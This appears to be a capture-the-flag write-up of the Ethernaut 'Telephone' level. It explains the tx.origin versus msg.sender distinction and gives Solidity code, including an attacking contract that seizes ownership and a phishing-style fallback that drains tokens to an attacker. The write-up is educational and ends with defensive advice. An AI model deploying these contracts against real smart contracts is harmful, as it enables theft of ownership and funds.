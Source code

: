 ```yaml
---
tags: 🥷
url: https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768
topic: [[Blockchain]]
---
```


# 5. Telephone
- [diff between tx.origin & msg.sender](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin)
	- `msg.sender`
		- gives direct sender of the msg *(user wallet or another smart contract)*
		- checks where the external function call directly came from
	- `tx.origin`
		- original user wallet that initialized the tx
		- the origin addr of potentially an entire chain of txs & calls
		- `tx.origin` can be only user wallets, not contract ones

## Exploitation
- We can trick the `(tx.origin != msg.sender)` by spoofing `msg.sender`
	- `tx.origin` will be our user address *(i.e `owner` from `PhoneChain`)*
	- `msg.sender` will be the address of the attacking contract
	- thus bypassing the check
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    // change the owner based on tx.origin
    // we can spoof this
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract PhoneChain {
  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function claimOwnership() payable public{
    Telephone(0x9F728A9a2B2c6AC2A008F828086DB24FF5e5fA9d).changeOwner(owner);
  }
}
```

## Takeaways
- confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/)
	- use `tx.origin` to determine whose tokens to transfer
		```solidity
		function transfer(address _to, uint _value) {
			tokens[tx.origin] -= _value;
			tokens[_to] += _value;
		}
		```
	- attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract
		- `tx.origin`: victim addr while `msg.sender` is the malicious contract's addr
		- results in funds being transferred from the victim to the attacker
		```solidity
		function () payable {
			token.transfer(attackerAddr, 10000);
		}
		```
- don't use `tx.origin` for authentication purposes

## Refs
- [Contracts using tx.origin for auth are vulnerable](https://hackernoon.com/hacking-solidity-contracts-using-txorigin-for-authorization-are-vulnerable-to-phishing)
- [Phising with tx.origin](https://solidity-by-example.org/hacks/phishing-with-tx-origin/)

## See Also
[[Blockchain]]
[[Ethernaut Wargame]]